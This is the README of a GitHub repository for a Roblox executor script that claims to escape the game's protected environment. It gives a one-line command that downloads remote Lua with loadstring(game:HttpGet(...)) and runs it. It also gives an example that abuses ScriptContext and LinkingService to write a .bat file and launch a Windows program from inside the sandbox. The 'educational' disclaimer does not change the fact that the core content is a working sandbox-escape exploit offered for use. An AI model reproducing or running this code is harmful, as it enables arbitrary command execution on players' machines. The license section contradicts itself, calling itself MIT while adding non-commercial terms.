 # Education and Vulnerability Fix Purposes Only!

This repository is created for **educational purposes** and to help developers fix vulnerabilities in their code. The tools and scripts provided here are intended for use in **secure environments** only.

Currently, this is made to bypass **ENV** that are protected from vulnerabilities like `game:GetService("ScriptContext"):SaveScriptProfilingData` and `game:GetService("LinkingService"):OpenUrl`.

# Usage

To use this script, simply execute the following code in your Roblox executor:

```Lua
local bypassed_env = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()
```

Full example:
```Lua
local bypassed_env, why, why_full = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()

if why ~= "Failed" and why ~= "UnSupported" then
	local L, S = bypassed_env.game:GetService("LinkingService"), bypassed_env.game:GetService("ScriptContext")
    L:OpenUrl(S:SaveScriptProfilingData([[START C:\WINDOWS\system32\notepad.exe]], "lol.bat"))
elseif why_full ~= nil then
    print(why_full)
else
    print(why)
end
```

## Disclaimer

By using this code, you are fully responsible for your actions. The author does not take any responsibility for any misuse or consequences resulting from the use of this code.

This project is **not** intended for malicious activities. It is solely designed to **educate** and **assist in fixing vulnerabilities** in a safe, responsible, and ethical manner.

Please ensure that you are in full compliance with all applicable laws and guidelines in your jurisdiction before using any code from this repository.

# License

This project is licensed under the **MIT License** with the following additional restriction:

## Terms:

- **Attribution**: You must give appropriate credit to the original author(s), provide a link to the license, and indicate if changes were made. You may do this in any reasonable manner, but not in any way that suggests the author(s) endorse you or your use.
- **Non-Commercial**: You may not use the material for commercial purposes. **Please do not sell the code or use it to create products or services that are sold.**
- **ShareAlike**: If you modify or build upon the work, you must distribute your contributions under the same license.

For more details, see the full [MIT License](https://opensource.org/licenses/MIT).
